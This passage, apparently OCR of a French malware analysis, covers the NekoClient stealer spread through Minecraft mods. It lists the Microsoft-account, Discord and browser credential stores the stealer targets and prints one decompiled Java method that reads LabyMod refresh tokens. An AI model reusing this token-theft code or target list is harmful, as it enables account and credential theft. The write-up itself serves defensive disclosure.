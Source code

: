 **Tokens MS (microsoft)**: Puisque ce malware vise les mods Minecraft, il est naturel pour lui d'essayer de voler les tokens de connexion aux comptes MS utilisés pour se connecter a Minecraft. Cerrtains launchers gardent cette donée en sécuritée dans un fichier local, dans lequel le malware vas tenter d'y lire son contenu. Cela affecte une variétée de launchers tel que :

* Le launcher Vanilla/Mojang
* Le launcher legacy Vanilla/Mojang
* PolyMC / Prism
* Technic
* Feather
* LabyMOd (< v3.9.59)
* Et tout les tokens trouvable dans le [Windows Credential Manager](https://support.microsoft.com/en-us/windows/accessing-credential-manager-1b5c916a-6a16-889f-8581-fc16e8165ac0)

La logique de retrait (vue dans [`dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java)) est similaire a celle ci car les donés sont stoqués d'une manière similaire. Par exemple voicit le code pour laby-mod:
```java
private static void retrieveRefreshTokensFromLabyMod(List<RefreshToken> refreshTokens) throws IOException {
	String appdata = System.getenv("APPDATA");
	if (Platform.isWindows() || Objects.isNull(appdata)) {
		Path path = appdata == null ? null : Paths.get(appdata, ".minecraft", "LabyMod", "accounts.json");
		if (Files.isReadable(path)) {
			extractRefreshTokensFromLabyModLauncher(refreshTokens, Json.parse(Files.readString(path)).asObject());
		}
	}
}
```
le code pour récupérer les tokens depuis Feather/PolyMC/Prism est essentiellement identique.

La différence dans la stratégie pour le launcher vanilla est que le fichier Json a une couche additionelle de cryptographie la protégeant.

La différence dans la stratégie pour technic est que technic stoque les tokens en utilisant un objet java buit-in, entourant `com.google.api.client.auth.oauth2.StoredCredential`.

**Tokens Discord**: Tout le monde a vus un voler de token avant. Ca vole le token et d'autres informations tel que les méthodes de payement, numéro de telephone lié, etc. Afecte les clients standart,canary,ptb et lightcord. Source: [`dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java`](https://github.com/clrxbl/NekoClient/blob/fd76c5f9d40d1e10de11f00a6b4e0cca3d6221a3/dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java)

**Cooies & informations sauvegardées**: Vole les cookies et les informations de connection sauvegardés dans les navigateurs web afectés. Source : [`dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java)

- Mozilla Firefox
    - Waterfox
    - Pale Moon
    - SeaMonkey
- Chrome
    - Edge
    - Brave
    - Vivaldi
    - Yandex
    - Slimjet
    - CentBrowser
    - Comodo
    - Iridium
    - UCBrowser
    - Opera
      - Beta